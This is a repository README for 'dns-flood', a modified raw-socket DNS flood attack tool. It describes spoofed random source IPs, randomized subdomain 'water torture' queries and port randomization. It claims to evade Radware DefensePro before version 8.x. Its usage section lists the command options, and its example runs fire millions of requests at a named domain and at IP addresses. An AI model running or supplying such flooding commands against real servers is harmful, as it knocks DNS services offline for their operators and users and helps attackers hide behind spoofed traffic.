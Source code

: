 # dns-flood
Original DNS-Flood tool found on code.google.com

This is modified version od DNS-Flood tool. 
Use raw sockets to generate DNS flood attack.

Original Here: https://code.google.com/p/dns-flood/

In contrast to original tool it provides:
  - Change to use /dev/urandom as the random seed
  - Make the Query comply with RFC 1035
  - Subdomain part of query randomization aka DNS Water Torture
  - Change default ephemeral port range comply with RFC 6056;  
  - Add feature to select ephemeral port range between 0 - 65535 or 1024 - 65535;  
  - Add feature to specific source port number, include port 0
  - Source port and TTL randomization
  - Additional query types like AAAA and MX
  - DNSSEC query support

The tool is able to bypass Radware DefensePro SW version prior to 8.x.

## How to install

1. Clone Repo
2. Run Make
3. Enjoy Kittens
 
## How to run

Usage:
```bash
./dnsflood <query_name> <destination_ip> [options]  
	Options:  
	-t, --type		query type  
	-s, --source-ip		source ip  
	-p, --dest-port		destination port  
	-P, --src-port		source port  
	-i, --interval		interval (in microseconds) between two packets  
	-n, --number		number of DNS requests to send  
	-d, --duration		run for at most this many seconds   
	-r, --random-src	fake random source IP
	-R, --random-sub	prefix with random subdomain names
	-S, --dnssec		make a dnssec query
	-D, --daemon		run as daemon  
	-h, --help		print this message   
```
Example:
```bash
$ ./dnsflood abf.auction.co.kr 127.0.0.1 -d 30
sent 5333186 DNS requests in 30.000000 sec.
$
$ ./dnsflood abf.auction.co.kr 10.40.196.84 -n 5000000
sent 5000000 DNS requests in 28.000000 sec.
$
```

## Credits for original version

Original DNS-Flood tool found on code.google.com

Use raw sockets to generate DNS flood attack.

Original Here: https://code.google.com/p/dns-flood/
